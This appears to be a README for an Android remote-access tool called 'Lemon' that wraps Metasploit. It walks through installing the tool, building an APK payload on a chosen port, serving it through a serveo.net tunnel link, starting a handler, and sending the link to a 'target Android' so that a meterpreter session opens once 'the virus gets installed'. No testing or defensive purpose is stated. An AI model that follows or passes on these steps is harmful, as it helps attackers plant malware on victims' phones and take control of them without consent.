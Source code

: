 .Requirements :-
1. Metasploit-Framework

Installation :-
1. Install it by executing "cd $HOME/Lemon && sh Install" without quotes.

How to use :-

1.Run php by typing "php"

2.Run say by typing "ssh" and copy the link you get.   [NEW SESSION]

3.Forward TCP comnections by typing "payload", choose a port of your own and the payload's name, it will take a little time to create and upload the payload with the specified port and name.

4.Type "Handler" and wait for the Handler to start, then type "set LPORT xxxx" Put your port instead of xxxx, and finally type "run"   [NEW SESSION]

5.Now, put your payload's name after the link that you got after running "ssh" [For Example : lente.serveo.net/Name.apk] and send the link to the target Android, once the virus gets installed in the target device, you will see a meterpreter session opening, wait for a few seconds.
  Now you can mess with the Android device using the commnands listed.
